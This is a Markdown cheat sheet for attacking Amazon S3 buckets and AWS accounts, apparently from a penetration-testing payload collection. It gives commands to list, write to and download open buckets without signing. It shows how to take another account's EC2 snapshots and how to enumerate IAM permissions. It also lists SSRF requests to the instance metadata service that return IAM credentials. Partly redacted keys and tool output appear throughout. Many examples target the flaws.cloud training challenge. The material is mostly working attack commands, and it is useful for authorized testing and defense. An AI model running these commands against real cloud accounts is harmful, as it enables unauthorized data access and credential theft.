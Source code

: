# Amazon Bucket S3 AWS

## Summary

- [Tools](#tools)
- [AWS Configuration](#aws-configuration)
- [Open Bucket](#open-bucket)
- [Basic tests](#basic-tests)
	- [Listing files](#listing-files)
	- [Move a file into the bucket](move-a-file-into-the-bucket)
	- [Download every things](#download-every-things)
	- [Check bucket disk size](#check-bucket-disk-size)
- [AWS - Extract Backup](#aws---extract-backup)
- [Bucket juicy data](#bucket-juicy-data)

## Tools

- [Pacu - The AWS exploitation framework, designed for testing the security of Amazon Web Services environments](https://github.com/RhinoSecurityLabs/pacu)
- [Bucket Finder - Search for readable buckets and list all the files in them](https://digi.ninja/)
	```powershell
	wget https://digi.ninja/files/bucket_finder_1.1.tar.bz2 -O bucket_finder_1.1.tar.bz2
	./bucket_finder.rb my_words
	./bucket_finder.rb --region ie my_words
		US Standard         = http://s3.amazonaws.com
		Ireland             = http://s3-eu-west-1.amazonaws.com
		Northern California = http://s3-us-west-1.amazonaws.com
		Singapore           = http://s3-ap-southeast-1.amazonaws.com
		Tokyo               = http://s3-ap-northeast-1.amazonaws.com

	./bucket_finder.rb --download --region ie my_words
	./bucket_finder.rb --log-file bucket.out my_words
	```
- [Boto3 - Amazon Web Services (AWS) SDK for Python](https://boto3.amazonaws.com/v1/documentation/api/latest/index.html)
	```python
	import boto3
	# Create an S3 client
	s3 = boto3.client('s3',aws_access_key_id='AKIAJQDP3RKREDACTED',aws_secret_access_key='igH8yFmmpMbnkcUaCqXJIRIozKVaREDACTED',region_name='us-west-1')

	try:
		result = s3.list_buckets()
		print(result)
	except Exception as e:
		print(e)
	```

## AWS Configuration

Prerequisites, at least you need awscli

```bash
sudo apt install awscli
```

You can get your credential here https://console.aws.amazon.com/iam/home?#/security_credential
but you need an aws account, free tier account : https://aws.amazon.com/s/dm/optimization/server-side-test/free-tier/free_np/

```javascript
aws configure
AWSAccessKeyId=[ENTER HERE YOUR KEY]
AWSSecretKey=[ENTER HERE YOUR KEY]
```

```javascript
aws configure --profile nameofprofile
```

then you can use *--profile nameofprofile* in the aws command.

Alternatively you can use environment variables instead of creating a profile.

```bash
export AWS_ACCESS_KEY_ID=ASIAZ[...]PODP56
export AWS_SECRET_ACCESS_KEY=fPk/Gya[...]4/j5bSuhDQ
export AWS_SESSION_TOKEN=FQoGZXIvYXdzE[...]8aOK4QU=
```

## Open Bucket

By default the name of Amazon Bucket are like http://s3.amazonaws.com/[bucket_name]/, you can browse open buckets if you know their names

```bash
http://s3.amazonaws.com/[bucket_name]/
http://[bucket_name].s3.amazonaws.com/
http://flaws.cloud.s3.amazonaws.com/
```

Their names are also listed if the listing is enabled.

```xml
<ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/">
<Name>adobe-REDACTED-REDACTED-REDACTED</Name>
```

Alternatively you can extract the name of inside-site s3 bucket with `%C0`. (Trick from https://twitter.com/0xmdv/status/1065581916437585920)

```xml
http://example.com/resources/id%C0

eg: http://redacted/avatar/123%C0
```

## Basic tests

### Listing files

```bash
aws s3 ls s3://targetbucket --no-sign-request --region insert-region-here
aws s3 ls  s3://flaws.cloud/ --no-sign-request --region us-west-2
```

You can get the region with a dig and nslookup

```bash
$ dig flaws.cloud
;; ANSWER SECTION:
flaws.cloud.    5    IN    A    52.218.192.11

$ nslookup 52.218.192.11
Non-authoritative answer:
11.192.218.52.in-addr.arpa name = s3-website-us-west-2.amazonaws.com.
```

### Move a file into the bucket

```bash
aws s3 cp local.txt s3://some-bucket/remote.txt --acl authenticated-read
aws s3 cp login.html s3://$bucketName --grants read=uri=http://acs.amazonaws.com/groups/global/AllUsers
```

```bash
aws s3 mv test.txt s3://hackerone.marketing
FAIL : "move failed: ./test.txt to s3://hackerone.marketing/test.txt A client error (AccessDenied) occurred when calling the PutObject operation: Access Denied."

aws s3 mv test.txt s3://hackerone.files
SUCCESS : "move: ./test.txt to s3://hackerone.files/test.txt"
```

### Download every things

```powershell
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --no-sign-request --region us-west-2
```

### Check bucket disk size

Use `--no-sign` for un-authenticated check.

```powershell
aws s3 ls s3://<bucketname> --recursive  | grep -v -E "(Bucket: |Prefix: |LastWriteTime|^$|--)" | awk 'BEGIN {total=0}{total+=$3}END{print total/1024/1024" MB"}'
```

## AWS - Extract Backup

```powershell
aws --profile flaws sts get-caller-identity
"Account": "XXXX26262029",

aws --profile flaws  ec2 describe-snapshots --owner-id XXXX26262029 --region us-west-2    
"SnapshotId": "snap-XXXX342abd1bdcb89",

Create a volume using snapshot
aws --profile swk ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id  snap-XXXX342abd1bdcb89
In Aws Console -> EC2 -> New Ubuntu
chmod 400 YOUR_KEY.pem
ssh -i YOUR_KEY.pem  ubuntu@ec2-XXX-XXX-XXX-XXX.us-east-2.compute.amazonaws.com

Mount the volume
lsblk
sudo file -s /dev/xvda1
sudo mount /dev/xvda1 /mnt
```

## Bucket juicy data

Amazon exposes an internal service every EC2 instance can query for instance metadata about the host. If you found an SSRF vulnerability that runs on EC2, try requesting :

```powershell
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/IAM_USER_ROLE_HERE will return the AccessKeyID, SecretAccessKey, and Token
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
```

For example with a proxy : http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/


## Enumerate IAM permissions

Enumerate the permissions associated with AWS credential set with [enumerate-iam](https://github.com/andresriancho/enumerate-iam)

```powershell
git clone git@github.com:andresriancho/enumerate-iam.git
cd enumerate-iam/
pip install -r requirements.txt
./enumerate-iam.py --access-key AKIA... --secret-key StF0q...
2019-05-10 15:57:58,447 - 21345 - [INFO] Starting permission enumeration for access-key-id "AKIA..."
2019-05-10 15:58:01,532 - 21345 - [INFO] Run for the hills, get_account_authorization_details worked!
2019-05-10 15:58:01,537 - 21345 - [INFO] -- {
    "RoleDetailList": [
        {
            "Tags": [], 
            "AssumeRolePolicyDocument": {
                "Version": "2008-10-17", 
                "Statement": [
                    {
...
2019-05-10 15:58:26,709 - 21345 - [INFO] -- gamelift.list_builds() worked!
2019-05-10 15:58:26,850 - 21345 - [INFO] -- cloudformation.list_stack_sets() worked!
2019-05-10 15:58:26,982 - 21345 - [INFO] -- directconnect.describe_locations() worked!
2019-05-10 15:58:27,021 - 21345 - [INFO] -- gamelift.describe_matchmaking_rule_sets() worked!
2019-05-10 15:58:27,311 - 21345 - [INFO] -- sqs.list_queues() worked!
```

## References

* [There's a Hole in 1,951 Amazon S3 Buckets - Mar 27, 2013 - Rapid7 willis](https://community.rapid7.com/community/infosec/blog/2013/03/27/1951-open-s3-buckets)
* [Bug Bounty Survey - AWS Basic test](https://twitter.com/bugbsurveys/status/859389553211297792)
* [flaws.cloud Challenge based on AWS vulnerabilities - by Scott Piper of Summit Route](http://flaws.cloud/)
* [flaws2.cloud Challenge based on AWS vulnerabilities - by Scott Piper of Summit Route](http://flaws2.cloud)
* [Guardzilla video camera hardcoded AWS credential - 0dayallday.org](https://www.0dayallday.org/guardzilla-video-camera-hard-coded-aws-credentials/)
* [AWS PENETRATION TESTING PART 1. S3 BUCKETS - VirtueSecurity](https://www.virtuesecurity.com/aws-penetration-testing-part-1-s3-buckets/)
* [AWS PENETRATION TESTING PART 2. S3, IAM, EC2 - VirtueSecurity](https://www.virtuesecurity.com/aws-penetration-testing-part-2-s3-iam-ec2/)